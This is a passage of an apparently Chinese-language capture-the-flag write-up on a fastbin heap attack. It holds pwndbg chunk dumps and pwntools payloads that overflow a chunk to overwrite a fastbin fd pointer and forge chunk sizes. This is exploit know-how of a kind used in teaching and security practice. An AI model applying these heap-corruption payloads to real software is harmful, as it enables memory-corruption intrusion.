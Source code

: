 ```python
  prev_size = 0, 
  size = 33, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x61
}
0x55d82f950080 FASTBIN {
  prev_size = 0, 
  size = 97, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x55d82f9500e0 PREV_INUSE {
  prev_size = 0, 
  size = 134945, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
```

这时使用fill覆盖fast bin头部(即chunk2)的fd的值，将其改为small chunk的地址，这相当于small bin已经被free在fast bin中了。

```python
payload = p64(0) * 3
payload += p64(0x21)
payload += p64(0) * 3
payload += p64(0x21)#chunk2
payload += p8(0x80)#地址低位
fill(0,payload)
```

然后：

```python
payload = p64(0) * 3
payload += p64(0x21)#chunk4_size
fill(3,payload)
```

这时：

```
pwndbg> x/32gx 0x557ac06f3000
0x557ac06f3000:	0x0000000000000000	0x0000000000000021 <=chunk0
0x557ac06f3010:	0x0000000000000000	0x0000000000000000
0x557ac06f3020:	0x0000000000000000	0x0000000000000021 <=chunk1
0x557ac06f3030:	0x0000000000000000	0x0000000000000000
0x557ac06f3040:	0x0000000000000000	0x0000000000000021 <=chunk2
0x557ac06f3050:	0x0000557ac06f3080	0x0000000000000000
0x557ac06f3060:	0x0000000000000000	0x0000000000000021 <=chunk3
0x557ac06f3070:	0x0000000000000000	0x0000000000000000
0x557ac06f3080:	0x0000000000000000	0x0000000000000021 <=chunk4
0x557ac06f3090:	0x0000000000000000	0x0000000000000000
0x557ac06f30a0:	0x0000000000000000	0x0000000000000000
0x557ac06f30b0:	0x0000000000000000	0x0000000000000000
0x557ac06f30c0:	0x0000000000000000	0x0000000000000000
0x557ac06f30d0:	0x0000000000000000	0x0000000000000000
0x557ac06f30e0:	0x0000000000000000	0x0000000000020f21
0x557ac06f30f0:	0x0000000000000000	0x0000000000000000
```
